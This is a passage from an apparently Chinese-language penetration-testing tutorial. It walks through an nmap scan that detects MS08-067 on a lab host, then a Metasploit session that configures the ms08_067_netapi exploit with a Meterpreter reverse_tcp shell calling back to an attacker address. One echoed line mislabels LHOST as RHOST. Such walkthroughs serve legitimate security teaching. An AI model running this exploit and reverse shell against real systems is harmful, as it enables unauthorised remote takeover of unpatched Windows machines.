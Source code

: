 ```javascript
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx

TRACEROUTE
HOP RTT     ADDRESS
1   0.91 ms service.dvssc.com (10.10.10.130)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 140.40 seconds
```


> 在msf中调用nmap的插件`--script=smb-vuln-ms08-067.nse`进行漏扫，`-sT`是指隐秘的TCP连接扫描（实践中，使用该参数进行端口枚举是最可靠。其他推荐的参数还有`-sS`，隐秘的TCP Syn扫描），`-A`是指高级操作系统探测功能，它会对一个特定服务进行更深入的flag和指纹获取，提供更多的信息。
>  
>  攻击成功与否决定于目标系统的OS版本、安装的服务包(Service Pack)版本以及语言类型，同时还依赖于是否成功地绕过了数据执行保护(DEP:Data Execution Prevention，DEP是为了防止缓冲区溢出攻击而设计地，它将程序堆栈渲染为只读，以防止shellcode被恶意放置在堆栈区并执行。绕过DEP保护可查阅http://www.uninformed.org/?v=2&a=4)

**0x02设置攻击参数**
根据nmap收集的参数，选择了ms08_067的exploits，然后设置必要的参数。

```javascript
msf > search ms08_067_netapi

Matching Modules
================

   Name                                 Disclosure Date  Rank   Description
   ----                                 ---------------  ----   -----------
   exploit/windows/smb/ms08_067_netapi  2008-10-28       great  MS08-067 Microsoft Server Service Relative Path Stack Corruption

msf exploit(ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ms08_067_netapi) > set RHOST 10.10.10.130
RHOST => 10.10.10.130
msf exploit(ms08_067_netapi) > set LHOST 10.10.10.134
RHOST => 10.10.10.134
msf exploit(ms08_067_netapi) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic Targeting
   1   Windows 2000 Universal
   2   Windows XP SP0/SP1 Universal
   3   Windows 2003 SP0 Universal
   4   Windows XP SP2 English (AlwaysOn NX)
   5   Windows XP SP2 English (NX)
  ...
msf exploit(ms08_067_netapi) > set target 3
target => 3
msf exploit(ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    10.10.10.130     yes       The target address
   RPORT    445              yes       Set the SMB service port
```